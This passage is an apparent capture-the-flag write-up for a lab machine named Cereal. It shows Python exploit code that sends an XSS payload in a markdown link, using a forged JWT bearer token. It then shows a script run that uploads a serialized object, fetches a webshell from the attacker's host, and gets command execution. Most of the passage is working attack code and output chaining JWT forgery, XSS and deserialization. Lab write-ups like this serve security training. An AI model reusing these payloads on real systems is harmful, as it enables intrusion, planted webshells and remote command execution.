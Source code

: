 

    # Send XSS payload
    xss_payload = {"json":"{\"title\":\"[XSS](javascript: document.write%28%22<script>var xhr = new XMLHttpRequest;xhr.open%28'GET', 'https://"+ target + "/requests/" + str(serial_id)+"', true%29;xhr.setRequestHeader%28'Authorization','Bearer "+token+"'%29;xhr.send%28null%29</script>%22%29)\", \"flavor\":\"pizza\", \"color\":\"#FFF\", \"description\":\"test\"}"}

    resp = requests.post(f'https://{target}/requests', json=xss_payload, headers=headers, verify=False)
    print(resp.text)



### Final Script

The [final script](/files/cereal-rce.py) runs, and making two requests
to Cereal:



    oxdf@parrot$ python3 rce.py cereal.htb http://10.10.14.15/cmdasp.aspx 0xdf.aspx
    [*] Forging JWT token
    [*] Sending DownloadHelper serialized object
    [+] Object uploaded: {"message":"Great cereal request!","id":9}
    [*] Sending XSS payload
    [+] XSS payload sent: {"message":"Great cereal request!","id":10}



A few minutes later, there's a request for the webshell:



    10.10.10.217 - - [27/Apr/2021 17:56:17] "GET /cmdasp.aspx HTTP/1.1" 200 -



Checking that url, it's there:

![](/img/image-20210427180233487.png)

And it runs commands:

![](/img/image-20210427192054343.png)

### Password
